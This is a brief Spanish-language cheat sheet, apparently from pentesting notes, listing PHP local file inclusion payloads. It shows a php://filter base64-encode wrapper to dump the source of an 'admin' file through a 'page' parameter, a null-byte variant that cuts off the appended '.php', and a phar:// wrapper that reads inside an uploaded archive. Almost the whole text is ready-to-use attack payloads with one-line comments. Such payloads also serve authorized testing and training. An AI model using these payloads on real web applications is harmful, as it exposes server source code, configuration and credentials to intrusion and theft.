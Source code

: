 
# BASE64 UTILIZANDO WRAPPER
```shell
#POR EJEMPLO TENEMOS UN PARAMETRO page QUE APUNTA A ARCHIVOS Y LE CONCATENA EL .php PUES VAMOS A VER EL CONTENIDO DE TODO EL ARCHIVO EN BASE64

?page=php://filter/convert.base64-encode/resource=admin

?page=php://filter/convert.base64-encode/resource=admin%00 #NULL BYTE
```


### LISTAR CONTENIDO DE UN COMPRIMIDO
```shell
?page=phar://uploads/23798462897481dsjad19d/test.pwned/test
```
